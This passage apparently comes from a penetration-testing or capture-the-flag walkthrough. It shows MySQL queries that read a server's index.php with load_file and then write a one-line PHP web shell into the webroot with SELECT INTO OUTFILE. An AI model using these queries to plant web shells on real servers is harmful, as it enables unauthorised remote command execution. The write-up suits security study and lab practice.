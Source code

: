 Nice. If we can write a file to the disk, we should be able to get code execution. Before doing that though, let's confirm the webroot directory by reading the index.php file from it:

```
select load_file('/var/www//html/index.php');
```

![](../../.gitbook/assets/22.JPG)

Excellent. Let's write a file to the webroot using the following query:

```
select "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www//html/ab12.php";
```

![](../../.gitbook/assets/23.JPG)

Let's confirm the file has been created:

```
select load_file('/var/www//html/ab12.php');
```
